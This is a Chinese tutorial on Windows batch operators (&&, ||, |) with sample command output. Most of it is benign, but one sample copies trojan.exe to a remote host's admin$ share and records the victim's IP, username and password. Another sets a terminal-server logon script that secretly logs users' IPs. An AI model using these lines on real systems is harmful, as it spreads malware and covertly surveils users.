 C:\\>dir c:\\Ex4rch && dir z:
Volume in drive C has no label.
Volume Serial Number is 0078-59FB

Directory of c:\\Ex4rch

2002-05-14 23:55 <DIR> .
2002-05-14 23:55 <DIR> ..
2002-05-14 23:55 14 sometips.gif
1 File(s) 14 bytes
2 Dir(s) 768,671,744 bytes free
The system cannot find the path specified.

在做备份的时候可能会用到这种命令会比较简单，如：
dir file://192.168.0.1/database/backup.mdb&& copy file://192.168.0.1/database/backup.mdbE:\\backup
如果远程服务器上存在backup.mdb文件，就执行copy命令，若不存在该文件则不执行copy命令。这种用法可以替换IF exist了 ：）

## 3.||

Usage：第一条命令 || 第二条命令 [|| 第三条命令...]

用这种方法可以同时执行多条命令，当碰到执行正确的命令后将不执行后面的命令，如果没有出现正确的命令则一直执行完所有命令；

Sample：
C:\\Ex4rch>dir sometips.gif || del sometips.gif
Volume in drive C has no label.
Volume Serial Number is 0078-59FB

Directory of C:\\Ex4rch

2002-05-14 23:55 14 sometips.gif
1 File(s) 14 bytes
0 Dir(s) 768,696,320 bytes free

组合命令使用的例子：
sample：
@copy trojan.exe \\\\%1\\admin$\\system32 && if not errorlevel 1 echoIP %1 USER %2 PASS %3 >>victim.txt

# 4. 管道命令的使用

## 1. | 命令

Usage：第一条命令 | 第二条命令 [| 第三条命令...]
将第一条命令的结果作为第二条命令的参数来使用，记得在unix中这种方式很常见。

sample：
time /t>>D:\\IP.log
netstat -n -p tcp|find ":3389">>D:\\IP.log
start Explore


看出来了么？用于终端服务允许我们为用户自定义起始的程序，来实现让用户运行下面这个bat，以获得登录用户的IP。

 